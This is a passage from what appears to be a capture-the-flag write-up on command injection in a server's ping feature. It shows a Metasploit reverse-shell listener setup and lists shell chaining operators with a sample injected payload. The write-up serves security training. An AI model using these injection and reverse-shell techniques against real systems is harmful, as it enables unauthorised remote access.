 This is listening on port 413, but you can change the port to whatever you like - remember that sometimes a well-known port will be more successful when trying to get a reverse shell.

You could also use a metasploit handler:

```bash
$ sudo msfconsole -q
msf6> use exploit/multi/handler

...[set the payload to a generic listener]...

msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp

...[set the host to your attacking machine IP and listening port]...

msf6 exploit(multi/handler) > set lhost 10.10.113.99
lhost => 10.10.113.99
msf6 exploit(multi/handler) > set lport 413
lport => 413

...[start the listener with run or exploit]...

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.113.99:413
```

### Command Injection Theory

The idea of command injection is to trick the server into executing our code as part of the `ping` command it is running on the back-end.

The first step is usually to use the functionality legitimately and see what happens. Entering an IP returns output that looks like this:

![](/assets/images/Pasted image 20211121224601.png)

So it's likely the server is running a command like this:

```bash
$ ping -c 4 [USER_INPUT]
```

There are a few characters we can use to chain commands in linux. We could use any of the following in theory, and just need to test until we find one that works:
- `& [COMMAND]` to run our command if the intended command finishes executing
- `|| [COMMAND]` to run our command whether or not the intended command finishes executing
- `; [COMMAND]` to run our command immediately after the intended command
- `` `[COMMAND]` `` to run our command *first* (anything in backticks is evaluated then run as part of the original command)

For example, with a semicolon-based payload `0.0.0.0; echo "Code Execution!"` our command would look like this when evaluated by the server:

```bash
$ ping -c 4 0.0.0.0; echo "Code Execution!"
```
